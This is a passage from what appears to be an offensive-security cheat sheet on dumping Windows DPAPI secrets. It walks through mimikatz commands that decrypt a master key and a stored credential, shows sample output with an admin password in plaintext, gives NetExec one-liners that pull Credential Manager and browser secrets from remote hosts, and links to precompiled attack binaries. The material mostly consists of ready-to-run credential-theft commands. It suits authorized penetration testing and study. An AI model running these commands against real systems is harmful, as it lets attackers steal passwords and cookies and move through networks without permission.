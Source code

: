   guidProvider       : ...
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {99...-...-...-...-7d}
...

# Retrieving MasterKey with User's Password, we need as well SID of that user (/protected is optional and might be necessary)
mimikatz # dpapi::masterkey /in:99...-...-...-...-7d /sid:S-1-5-...-1000 /password:MyPass /protected
**MASTERKEYS**
...
[masterkey] with password: MyPass (protected user)
  key : ac2...
  sha1: ...
    
# Having that key, we can decrypt file under /Credentials (uppercase alphanumeric)
mimikatz # dpapi::cred /in:A1...F7
**BLOB**
...
  UserName       : domain.com\admin
  CredentialBlob : SuperSecurePassword
  Attributes     : 0
<strong>
</strong><strong>
</strong><strong># It will get all secrets from Credential Manager, Chrome, Edge, Firefox
</strong># You need at least local admin privilege on the remote target
nxc smb &#x3C;ip> -u user -p password --dpapi
nxc smb &#x3C;ip> -u user -p password --dpapi cookies
nxc smb &#x3C;ip> -u user -p password --dpapi nosystem


# Alternative -> check SharpDPAPI.exe from here
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
https://github.com/login-securite/DonPAPI
</code></pre>

### NTLMv2

[https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html](https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html)

{% hint style="info" %}
NTLMv2 cannot be used for pass-the-hash but can be cracked.
{% endhint %}

### Domain Cached Logon Crack


[192.168.50.73]: PS C:\Users\jen\Documents> whoami 